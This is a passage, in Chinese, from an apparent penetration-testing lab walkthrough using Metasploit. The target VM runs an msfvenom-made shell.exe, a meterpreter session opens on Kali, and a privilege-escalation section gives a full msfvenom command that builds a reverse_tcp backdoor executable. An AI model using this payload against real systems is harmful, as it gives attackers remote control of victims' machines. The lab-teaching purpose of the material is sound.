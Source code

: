 打开 ip 地址为 192.168.1.253 的目标靶机，双击 d:\下的 shell.exe 文件。这里的shell.exe 即为刚才 msfvenom 生成的，模拟目标执行恶意文件.

![image-20230503183125546](assets/image-20230503183125546.png)

返回 ip 为 192.168.1.2 的 kali 虚拟机，打开 msf 终端查看，获取 meterpreter 会话。

![image-20230503183154330](assets/image-20230503183154330.png)

# 14、本地权限提示

输入 `msfvenom -p windows/x64/meterpreter/reverse_tcp LPORT=4444 LHOST=192.168.1.2 -f exe -o 4444.exe `命令，生成 msf 反向连接后门.
